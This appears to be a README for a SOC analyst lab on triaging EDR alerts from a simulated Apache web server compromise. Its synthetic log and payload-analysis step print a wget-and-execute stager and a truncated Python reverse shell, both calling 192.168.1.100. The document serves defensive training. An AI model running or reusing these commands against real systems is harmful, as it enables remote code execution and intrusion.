

# Incident 10: EDR Alert Triage & Tuning 

## 1. Executive Summary

This project simulates the day-to-day workflow of a Tier 1 Security Operations Center (SOC) analyst investigating Endpoint Detections and Response (EDR) alerts. Focusing on an Apache web server compromise, this repository demonstrates how to analyze process parent-child relationships, dissect malicious command-line arguments, separate true positives from noisy administrative alerts, and write basic suppression/tuning rules.

---

## 2. Telemetry & Target Assets 

* **Detection Vector:** EDR Process Execution Telemetry & Web Server Logs
* **Compromised Asset:** Production Web Server (`prod-web-01` / `10.0.0.50`)
* **Primary Telemetry Source:** `var/log/edr_alerts.log`
* **Threat Vectors Investigated:** Web server remote code execution (RCE) spawning shell processes and reverse shell payloads.

---

## 3. Architecture & Data Flow



### Component Breakdown

* **Production Web Server (`prod-web-01` / `10.0.0.50`):** The target asset running Apache where an unauthorized remote code execution attempt spawns suspicious child processes (`sh`, `python3`). 
* **EDR Sensor / Kernel Agent:** Captures real-time process execution lineage, tracking parent-child process relationships (`ppid` and `pid`) and command-line arguments (`args`). 
* **EDR Alert Log (`/var/log/edr_alerts.log`):** System alert storage capturing structured log events categorized by severity, rule names, and execution timestamps. 
* **Analyst Triage Workspace:** The local Linux terminal environment where analyst run CLI pipelines (`grep`, `awk`, `cut`, `sort`) to isolate critical threats and build tuning exclusions. 

---

## 4. Local Lab Setup & Telemetry Generation

To simulate the web server compromise within my existing Linux VM lab environment, a target directory structure was created alongside a custom log payload in `/var/log/edr_alerts.log`. The synthetic telemetry captures both true-positive RCE execution lineages and routine administrative noise:

```bash
# Generate simulated EDR alert telemetry locally
mkdir -p logs
cat << 'EOF' > logs/edr_alerts.log
timestamp=2026-11-05T08:00:00Z host=prod-web-01 ppid=1420 pid=1892 user=www-data parent_comm="/usr/sbin/apache2" comm="sh" args="sh -c 'wget [http://192.168.1.100/payload.sh](http://192.168.1.100/payload.sh) -O /tmp/payload.sh && chmod +x /tmp/payload.sh && /tmp/payload.sh'" severity=CRITICAL rule="Web_Server_Shell_Execution"
timestamp=2026-11-05T08:02:15Z host=prod-web-01 ppid=1420 pid=1895 user=www-data parent_comm="/usr/sbin/apache2" comm="sh" args="sh -c 'wget [http://192.168.1.100/payload.sh](http://192.168.1.100/payload.sh) -O /tmp/payload.sh && chmod +x /tmp/payload.sh && /tmp/payload.sh'" severity=CRITICAL rule="Web_Server_Shell_Execution"
timestamp=2026-11-05T08:05:12Z host=prod-web-01 ppid=1100 pid=4522 user=root parent_comm="cron" comm="apt-get" args="apt-get update -y" severity=INFO rule="Scheduled Package Update"
timestamp=2026-11-05T08:12:45Z host=prod-web-01 ppid=1420 pid=1910 user=www-data parent_comm="/usr/sbin/apache2" comm="python3" args="/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.1.100\",4444));...'" severity=CRITICAL rule="Suspicious_Outbound_Network_Connection"
EOF
```
---

## 5. Hands-On CLI Triage Walkthrough & Key Findings

The following execution strings demonstrate how telemetry was parsed to isolate critical alerts, extract process parentage, and identify malicious command arguments:

### Step 1: Isolate Critical EDR Alerts by Rule Name

```bash
grep "CRITICAL" logs/edr_alerts.log | awk -F'rule="' '{print $2}' | cut -d'"' -f1 | sort | uniq -c
```
> **Telemetry Finding:** Isolated 3 high-severity events driven by `Web_Server_Shell_Execution` (2 events) and `Suspicious_Outbound_Network_Connection` (1 event).

---

### Step 2: Extract Suspicious Parent-Child Process Pairs

```bash
grep "CRITICAL" logs/edr_alerts.log | awk -F'parent_comm="' '{print $2}' | awk -F'"' '{print "Parent: " $1, "-> Child: " $3}'
```
> **Telemetry Finding:** Identified anomalous process execution lineage across three critical events:
> * `Parent: /usr/sbin/apache2 -> Child: sh` (2 instances)
> * `Parent: /usr/sbin/apache2 -> Child: python3` (1 instance)
> 
> A web daemon spawning interactive command shells or script engines indicates an active Remote Code Execution (RCE) exploit against the web server.

---

### Step 3: Dissect Command-Line Arguments for Payload Analysis

```bash
grep "CRITICAL" logs/edr_alerts.log | awk -F'args="' '{print $2}' | cut -d'"' -f1
```
> **Telemetry Finding:** Extracted full malicious execution payloads:
> * **Downloader / Stager (2 instances):** `sh -c 'wget http://192.168.1.100/payload.sh -O /tmp/payload.sh && chmod +x /tmp/payload.sh && /tmp/payload.sh'`
> * **Reverse Shell (1 instance):** `/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.100",4444));...'`
> 
> This confirms both initial payload staging and interactive command-and-control connection attempts originating from the compromised web worker process.

---

## 6. Alert Tuning & False Positive Mitigation

During active monitoring, routine maintenance tasks (such as automated cron updates) frequently trigger benign alerts. 

* **The Noise:** `cron` spawning `apt-get update` triggered a medium-severity process execution alert.
* **The Tuning Action:** Implemented an exclusion rule in the EDR policy to ignore child processes matching `apt-get` or `yum` when spawned by the trusted cron scheduler daemon, successfully eliminating recurring background noise from scheduled administrative tasks.

---

## 7. Operational Takeaways

* **Context:** Knowing that a shell (`sh`) was spawned by a user is normal; knowing it was spawned by `apache2` immediately exposes a remote code execution vulnerability.
* **The Importance of Tuning:** Effective SOC analysts don't just close alerts—they tune out recurring benign noise so their team can focus entirely on high-fidelity indicators of compromise.
